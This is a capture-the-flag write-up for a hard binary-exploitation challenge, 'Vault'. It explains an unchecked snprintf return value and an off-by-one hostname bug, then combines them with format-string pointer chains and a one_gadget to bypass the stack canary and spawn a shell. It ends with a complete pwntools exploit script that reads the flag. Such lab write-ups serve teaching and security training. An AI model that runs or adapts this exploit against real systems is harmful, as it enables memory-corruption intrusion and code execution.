



 <font size='5'>Vault</font>

5<sup>th</sup> February 2025

Prepared By: S4muii

Challenge Author: S4muii

Difficulty: <font color='red'>Hard</font>

<br><br><br><br>


# Synopsis

Vault is a Hard Pwn challenge. Players will use a misuse of `snprintf` in order to write out of bounds in a buffer, and an off by one error in parsing of a string. They will combine these bugs to bypass the stack canary and overwrite saved registers in order to reach a one_gadget.

## Skills Required

- C/C++ Source Code Review.
- Format strings.
- Ret2main.
- one_gadget.

## Skills Learned

- Learn how to use fmt strings even when the address that you need is not on the stack.
- Learn how to use one_gadget and the reasons that it might fail.

# Solution

## Finding the vulnerability
1. Misuse of `snprintf` Return value.  
looking at the source code in `view_entries` you can find this code snippet and it looks suspicious since the return value of snprintf is used directly without any checks
```c
    ...
    char text[0x80 + 0x100] = {0};
    char *textp = text;
    ...
    textp += snprintf(textp, sizeof(text), "Hostname:  %s\nPassword:    ", entry->hostname);
    ...
```
And the reason why it's vulnerable here is
> The  functions snprintf() and vsnprintf() do not write more than size bytes (including the terminating null byte ('\0')).  If the output was truncated due to this limit, then the
return value is the number of characters (excluding the terminating null byte) which would have been written to the final string if enough space had been available.  Thus, a  re‐
turn value of size or more means that the output was truncated.  (See also below under CAVEATS.)  

2. Off-By-One in Hostname Parsing
In the `parse_hostname` function:
```c
    size_t hostname_len = port_start - urlp;
    if (hostname_len > sizeof(entry->hostname)) // Bug: off-by-one if hostname_len == sizeof(entry->hostname)
        hostname_len = sizeof(entry->hostname) - 1;
    strncpy(hostname, urlp, hostname_len);
    hostname[hostname_len] = '\0';
```

## Exploitation
as you can see it returns the amount of bytes that might have been writen. which means if the original buffer is bigger than `n` then the return value will be bigger than `n` as well . using that returned value to copy something else afterwards will result in the copy happening out-of-bounds and in our case it skips the canary entirely and clobber what's beyond the canary let's goooo.
```
Higher addresses
    |-------------------------|
    |     return address      |
    |-------------------------|
    |  callee-saved registers |
    |           $r15          |
    |           $r14          |
    |           $r13          |
    |           $r12          |
    |           $rbx          |
    |-------------------------|
    |         canary          |
    |-------------------------|
    |      stack address      |
    |-------------------------|
    |                         |
    |                         |
    |       text[0x180]       |
    |                         |
    |                         |
    |-------------------------|
    |    local_vars[0x20]     |
    |-------------------------| <---- $rsp
Lower addresses
```
The first thing we can do is to fill the text by having a hostname with 0x80 bytes and not null-terminated, and the password to be of the maximum size, which is 0x100. This will make the `snprintf` return 0x198 (`len(hostname) + len(password) + len("Hostname:  \nPassword:    ")`) but only write 0x180 bytes to the `text` buffer. Which allows us to skip over 0x18 bytes including the canary and the saved `$rbx`.  
<br>
We could theoretically overwrite all the callee-saved registers with some garbage data, given that it doesn't include any nulls since the first null we encounter will terminate the `memcpy` because it copies based on `strlen`. This means we can `ROP` with only one full gadget. However, the r12 is actually pointing to `"> "` in the .rodata region of our ELF. By partially overwriting that pointer to point to one of our `entries`, we get to control the `$rdi` used for a `printf`, hence controlling the fmt string. We can use that to leak or overwrite memory if there are pointers on the stack that point to it.

so the plan goes like this 
1. overwrite the $r12 to be `enteries[0]->hostname` which holds "$3p$9p$10p" and will be used to leak some pointer to defeat aslr.
2. use the one_gadget.  

while this plan looks pretty good in theory but it doesn't work when you actually try it and it crashes with every one_gadget like this.
<br>

<br>

looks like it's trying to dereference the `$rbp` to store or read local variables while it's setting up the args for `execve("/bin/sh",argv,envp)` but $rbp is 0x1 and not a stack address. the reason for this comes down to gcc's optimizations when using `-O2`.  
> -fomit-frame-pointer is enabled by default at optimization levels -O, -O2, -O3, -Os  

hence the $rbp is never set as a stack pointer at the beginning and since it's a callee-saved register then whenever it gets set inside a function it will be returned to it's original state afterwards once the function returns.  
Looking at the stack we find those neatly oragnized stack elements 
<br>

<br>

so here's the revised plan  
1. [Unchanged].
2. find a ROP gadget from libc to set $rbp and then return to main.
3. use the one_gadget.  
<br>

But again it won't be as easy as this. even though we fixed the `$rbp`. the one_gadget is still not cooperating. let's look at the gadgets that we found again and see what else we need to fix to get it working. 
<br>

<br>

two of them requires $rdx,$rsi and it's impossible because they're a scratch-registers and will get overwritten by any function call so even after returning to main there's no guarntee that it will hold the same value , one requires $r12 which is impossible to satisify as well since we clobber it with an 8 bytes that don't include any nulls while providing the final ROP gadget so we can't put an address or zero it out. remember that whenever we will send the final ROP gadget all the callee-saved register on the stack will get clobbered with non-NULL values.  

so that leave us with three gadgets at the bottom that will word as follow `execve("/bin/sh",$rbp-0x50,[$rbp-0x70])` and looking at our new $rbp it looks like $rbp-0x50 is already satisfied so all we gotta do is set `[$rbp-0x70]=0x0` which is not gonna be hard with our arbitiary fmt string that we already have.  

but first we need to know something about writing to memory using `"%n"` . first of all it requires a memory address to write to. so you have to write addresses onto the stack and they should be somewhere where you could address them using `"$"` operator . which means they have to reside in an address bigger than our $rsp. and if you can't find an address there or you can put that yourself . then you're out of luck but not quite   
<br>

### pointer chains  
pointer chains can help you if you have an address that points to another address that points close to the value you want to change.  
```
rsp+XXX   : x->y->z 
rsp+XXX(x): y->z
```
if you're `%hn` x then you'll modify the least siginificant 2 bytes of y and make it point to the our target so now it becomes
```
rsp+XXX   : x->pointer_to_target->target
rsp+XXX(x): pointer_to_target->target
```

so here's the final plan  

1. use fmt to leak some addresses.
2. use fmt as `"%{target_mem&0xffff}c%20$hn"`.&ensp;# this will make y become a pointer to target ($rbp-0x70)
3. use fmt as `"%47$ln"`.&ensp;# this will set [$rbp-0x70]=NULL
4. pop $rbp from the stack.
5. one_gadget.
6. profit.

and here's the full exploit
```py
from pwn import *
from ctypes import CDLL
from math import floor
from ctypes import CDLL
import traceback

os.chdir(os.path.dirname(os.path.abspath(__file__)))
os.chdir('../app')

ENTRY_SIZE = 0x188

context.log_level   = 'CRITICAL'
context.binary = e  = ELF('./vault',checksec=False)
libc                = ELF("./libc/libc.so.6",checksec=False)
r                   = None

# the index is needed for entries[idx] even after we ret2main the idx will be incremented
# since it's in the .data section and the compiler thought it's a good idea to not reinitialize it
# in main . it's initialized in the elf and that's enough.
idx = 0

libc_cdll   = CDLL("./libc/libc.so.6")
global_key  = b'\1'*64

def check_badbytes(payload):
    # checking for bad bytes that might trip scanf
    assert len([i for i in payload if i in b'\v\f\n\r\t ']) == 0

# wait for marker [menu end]
wfm = lambda : r.recvuntil(b'3. Exit\n')

def add(url:bytes, password:bytes,w=True):
    global r
    if w: wfm()
    r.sendline(b'1')
    r.sendlineafter(b'URL: ',url)
    r.sendlineafter(b'Password: ',password)

def view(i:int):
    global r
    r.sendlineafter(b'3. Exit\n',b'2')
    r.sendlineafter(b'Index: ',str(i).encode())

def xor(data:bytes, key:bytes):
    return bytes([data[i]^key[i%len(key)] for i in range(len(data))])

def conn():
    global r
    if args.GDB:
        r = gdb.debug(
            ['./vault'],
            gdbscript='''
                b *view_entries+387
                c
                c
                set $r12=&entries
                b printf
                c
                c
            '''
        )
    elif args.REMOTE:
        r = remote('localhost',1234)
    else:
        r = process([e.path])

def init_key():
    global global_key
    global_key = b''
    now = int(floor(time.time()))
    libc_cdll.srand(now)
    for _ in range(64):
        global_key += p8(libc_cdll.rand() &0xff)


def exploit(url:bytes,password:bytes):
    global r,idx
    check_badbytes(password)
    add(url, password,False)
    view(idx)
    view(idx)
    idx += 1

def fmt_payload(fmt:bytes):
    global idx,global_key,e
    url = b''
    url+= fmt
    url = url.ljust(0x80,b'A')+b':80'

    password  = b''
    password += xor(p16((e.sym.entries+ENTRY_SIZE*idx)&0xffff),global_key[:2])
    password += p8(global_key[2])               # null
    password  = password.ljust(0xff,b'C')

    exploit(url,password)

def rop_payload(addr:int):
    url      = b'A'*0x80 +b':80'
    password = b'A'*0x20
    password+= xor(p64(addr),global_key[0x20:0x28])
    password = password.ljust(0xff,b'C')

    exploit(url,password)    

j = 0 
with log.progress('Guessing....',level=logging.CRITICAL) as l:
    while True:
        try:
            idx=0
            j+=1
            l.status(f'0x{j:02x}/0x{2**8:02x}')

            conn()
            init_key()

            url = b''
            for i in [3,9,10]:  # libc/rbp/binary
                url+= (f'%{i}$p'.encode()+ b'HTB')
            
            fmt_payload(url)
            wfm()
            x = r.clean()
            if b'0x' in x:
                libc.address    = int(x.split(b'HTB')[0],base=16)-0x114887
                stack_leak      = int(x.split(b'HTB')[1],base=16)           # rbp
                target_mem      = stack_leak-0x70                           # rbp-0x70
                e.address       = int(x.split(b'HTB')[2],base=16)-0x1200    # main

                l.status(f'''leaks acquired''')

                fmt_payload(f'%{target_mem&0xffff}c%20$hn'.encode())    # rbp->rbp-0x70
                fmt_payload(b'%47$ln')                                  # [rbp-0x70]=NULL
            
                l.status(f'''stack altered''')

                rop_payload(libc.address+0x145fda)  # pop rbp ; ret2main
                init_key()                          # reset the key since main will call init_key again

                l.status(f'''$rbp ready''')

                rop_payload(libc.address+0xebd43)   # one_gadget

                l.status(f'''one_gadget engaged''')
                
                r.clean()
                r.sendline(b'cat flag.txt; exit')
                flag = r.recvline().decode().strip()
                if 'HTB' in flag:
                    l.success(flag)
                    break
        except AssertionError:
            # means that this srand(time(NULL)) will not work with our payload . sleep for a second
            time.sleep(1)
        except Exception as _:
            # print(traceback.print_exc())
            pass

        r.close()
        continue

# Gadgets
# 0x145fda: pop rbp ; pop r14 ; pop r15 ; pop rbp ; ret ; (1 found)
# 0xebd43 execve("/bin/sh", rbp-0x50, [rbp-0x70])
```